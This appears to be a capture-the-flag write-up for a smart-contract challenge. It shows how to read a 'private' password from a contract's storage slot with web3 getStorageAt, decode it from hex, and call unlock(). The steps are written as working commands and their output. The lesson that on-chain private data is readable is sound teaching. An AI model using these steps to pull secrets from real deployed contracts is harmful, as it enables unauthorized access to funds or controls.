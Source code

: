 This contract is locked unless function ```unlock(bytes32 _password)``` is called with the correct password.

The correct password is stored as a private bytes32 variable in the contract storage.

This does not mean it's inaccessible.

I know that ```password``` is the second variable therefore index 1 in storage elements.

### Steps 

Using web3 function ```getStorageAt()``` with (contract address, index) as parameters.

```password = web3.eth.getStorageAt(instance, 1)``` 

Or with error handling

```web3.eth.getStorageAt(instance, 1, function(error, result) {password = result})```

The password result = ```"0x412076657279207374726f6e67207365637265742070617373776f7264203a29"```

HEX to ASCII outputs = ```A very strong secret password :)```

Now call ```unlock()``` function with the password.

```contract.unlock("0x412076657279207374726f6e67207365637265742070617373776f7264203a29")```

Check contract is unlocked.

```contract.locked()``` now returns ```false```


